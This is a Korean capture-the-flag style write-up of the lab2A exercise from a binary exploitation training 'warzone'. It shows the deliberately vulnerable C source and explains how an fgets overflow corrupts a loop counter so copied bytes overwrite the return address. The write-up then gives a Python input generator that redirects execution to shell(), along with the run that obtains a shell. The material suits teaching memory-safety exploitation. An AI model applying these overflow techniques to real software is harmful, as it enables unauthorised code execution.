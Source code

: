 ## 1. 문제 확인
- ID : lab2A
- Target : /level/lab02/lab2A
- flag : /home/lab2end/.pass
```
	lab2A@warzone:/levels/lab02$ ./lab2A
	Input 10 words:
	1234567890
	abcdefg
	1111111111
	2222222222
	3333333333
	4444444444
	5555555555
	6666666666
	7777777777
	8888888888
	Here are the first characters from the 10 words concatenated:
	1a12345678
	Not authenticated
	lab2A@warzone:/levels/lab02$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>

	/*
 	* compiled with:
 	* gcc -O0 -fno-stack-protector lab2A.c -o lab2A
 	*/

	void shell()
	{
        printf("You got it\n");
        system("/bin/sh");
	}

	void concatenate_first_chars()
	{
        struct {
            char word_buf[12];
            int i;
            char* cat_pointer;
            char cat_buf[10];
    	} locals;
    	locals.cat_pointer = locals.cat_buf;

    	printf("Input 10 words:\n");
    	for(locals.i=0; locals.i!=10; locals.i++)
    	{
        	// Read from stdin
        	if(fgets(locals.word_buf, 0x10, stdin) == 0 || locals.word_buf[0] == '\n')
        	{
            	printf("Failed to read word\n");
            	return;
        	}
        	// Copy first char from word to next location in concatenated buffer
        	*locals.cat_pointer = *locals.word_buf;
        	locals.cat_pointer++;
    	}

    	// Even if something goes wrong, there's a null byte here
    	//   preventing buffer overflows
    	locals.cat_buf[10] = '\0';
    	printf("Here are the first characters from the 10 words concatenated:\n\%s\n", locals.cat_buf);
	}

	int main(int argc, char** argv)
	{
        if(argc != 1)
        {
            printf("usage:\n%s\n", argv[0]);
            return EXIT_FAILURE;
        }

        concatenate_first_chars();

        printf("Not authenticated\n");
        return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
#### 2.2.1 concatenate_first_chars()
- word_buf 크기가 12byte인데 fgets()함수에서 16byte(0x10)를 입력받을 수 있으므로 4byte overflow 발생 가능
```c
	...
    struct {
            char word_buf[12];
            int i;
            char* cat_pointer;
            char cat_buf[10];
    } locals;
    ...
    if(fgets(locals.word_buf, 0x10, stdin) == 0 || locals.word_buf[0] == '\n')
    {
	...
```
- word_buf 가 overflow 되면 i 값까지 덮어쓰게 되고, i 값이 10이 아니면 for문이 반복되므로 최종적으로 cat_buf 의 크기인 10byte보다 더 큰 값을 덮어쓸 수 있음
```c
	...
	locals.cat_pointer = locals.cat_buf;

    printf("Input 10 words:\n");
	for(locals.i=0; locals.i!=10; locals.i++)
    {
    ...
    	*locals.cat_pointer = *locals.word_buf;
        locals.cat_pointer++;
    }
```
- fgets()함수를 통해 12byte 문자를 입력하면 Enter(0xa)까지 총 13byte가 word_buf 에 쓰여지고 다음 변수 i 까지 덮어쓰게 됨
  (※ i값이 0xa(10)부터 증가되므로 for문 조건에 의해 무한 반복됨)
```
	|-----------   word_buf  -----------| |---- i ----|
    [31 32 33 34 35 36 37 38 39 30 31 32] [0a 00 00 00]
      1  2  3  4  5  6  7  8  9  0  1  2   \n    
```
- for문을 반복하면서 word_buf 입력값의 첫 byte를 복사하여 cat_buf 에 순차적으로 붙여넣음
```
	...
    0x08048777 <+90>:    mov    eax,DWORD PTR [ebp-0x18]
    0x0804877a <+93>:    movzx  edx,BYTE PTR [ebp-0x28]
    0x0804877e <+97>:    mov    BYTE PTR [eax],dl
    0x08048780 <+99>:    mov    eax,DWORD PTR [ebp-0x18]
    0x08048783 <+102>:   add    eax,0x1
    0x08048786 <+105>:   mov    DWORD PTR [ebp-0x18],eax
    ...
```
- cat_buf 의 위치는 word_buf 위치(ebp-0x28)로부터 20byte(0x14) 떨어져 있으므로 ebp-0x14 가 되며 cat_buf 값이 20byte가 넘어가게 되면 SFP, RET 주소를 순차적으로 덮어쓰게 됨
```
  	0x0804871d <+0>:     push   ebp
  	0x0804871e <+1>:     mov    ebp,esp
   	0x08048720 <+3>:     sub    esp,0x38
   	0x08048723 <+6>:     lea    eax,[ebp-0x28]
   	0x08048726 <+9>:     add    eax,0x14
   	0x08048729 <+12>:    mov    DWORD PTR [ebp-0x18],eax
    ...
```

<br/><br/>
## 3. Exploit
- 변수 i 값을 변경하여 반복문 횟수를 늘리고 cat_buf 값이 리턴주소까지 덮어쓰도록 함 
```
	 =============================================>
    [word_buf][i][cat_pointer][cat_buf][dummy][SFP][RET]
        12     4       4          10      10    4  main() <-- shell() 주소로 변경
```
- 쉘을 띄워줄 shell()함수의 주소를 확인하여 리턴주소로 사용함
```
	gdb-peda$ p shell
	$2 = {<text variable, no debug info>} 0x80486fd <shell>
	gdb-peda$
```
- 다음 코드를 실행하여 입력 데이터를 생성함
```python
    print("a"*12)
    
    for i in range(23):
    	print("b")
        
    print("\xfd")
    print("\x86")
    print("\x04")
    print("\x08")
    
    print("")  // for문 강제 종료를 위한 입력
```
- 생성된 입력값을 전달하여 프로그램을 실행해주면 됨
  (※ 파이프는 cat 명령의 결과값만 전달하기 때문에 ;cat 명령을 추가하여 쉘이 input을 받을 수 있도록 해줘야 함)
```
	lab2A@warzone:/levels/lab02$ python /tmp/lab2a.py > /tmp/lab2a_input
	lab2A@warzone:/levels/lab02$ (cat /tmp/lab2a_input;cat) | ./lab2A
	Input 10 words:
	Failed to read word
	You got it
	id
	uid=1008(lab2A) gid=1009(lab2A) euid=1009(lab2end) groups=1010(lab2end),1001(gameuser),1009(lab2A)
```
